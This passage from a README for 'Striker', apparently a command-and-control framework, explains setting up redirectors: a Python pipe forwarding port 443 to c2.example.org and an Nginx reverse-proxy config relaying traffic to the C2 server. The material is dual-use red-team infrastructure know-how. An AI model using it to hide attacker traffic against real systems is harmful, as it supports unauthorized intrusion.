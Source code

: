 You should get the following response if it works;

```json
{ "acknowledged" : true, "matchedCount" : 1, "modifiedCount" : 1 }
```

You can now login :)

### 3. The C2 Redirector

**A) Dumb Pipe Redirection**

A dumb pipe redirector written for *Striker* is available at `redirector/redirector.py`. Obviously, this will only work for plain HTTP traffic, or for HTTPS when SSL verification is disabled (you can do this by enabling the `INSECURE_SSL` macro in the C agent).

The following example listens on port `443` on all interfaces and forward to `c2.example.org` on port `443`;

```bash
$ cd redirector
$ ./redirector.py 0.0.0.0:443 c2.example.org:443
[*] Starting redirector on 0.0.0.0:443...
[+] Listening for connections...
```

**B) Nginx Reverse Proxy as Redirector**

1. Install Nginx;

```bash
$ sudo apt install nginx
```

2. Create a vhost config (e.g: `/etc/nginx/sites-available/striker`);

Placeholders;
- `<domain-name>` - This is your server's FQDN, and should match the one in you SSL cert.
- `<ssl-cert>` - The SSL cert file to use.
- `<ssl-key>` - The SSL key file to use.
- `<c2-server>` - The full URL of the C2 server to forward requests to.

WARNING: `client_max_body_size` should be as large as the size defined by `MAX_UPLOAD_SIZE` in your `backend/.env` file, or uploads for large files will fail.

```yaml
server {
    listen 443 ssl;
    server_name             <domain-name>;
    ssl_certificate         <ssl-cert>;
    ssl_certificate_key     <ssl-key>;
    client_max_body_size    100M;
    access_log              /var/log/nginx/striker.log;

    location / {
      proxy_pass              <c2-server>;
      proxy_redirect          off;
      proxy_ssl_verify        off;
      proxy_read_timeout      90;
      proxy_http_version      1.0;
      proxy_set_header        Upgrade $http_upgrade;
      proxy_set_header        Connection "upgrade";
      proxy_set_header        Host $host;
      proxy_set_header        X-Real-IP $remote_addr;
      proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
    }
}
```
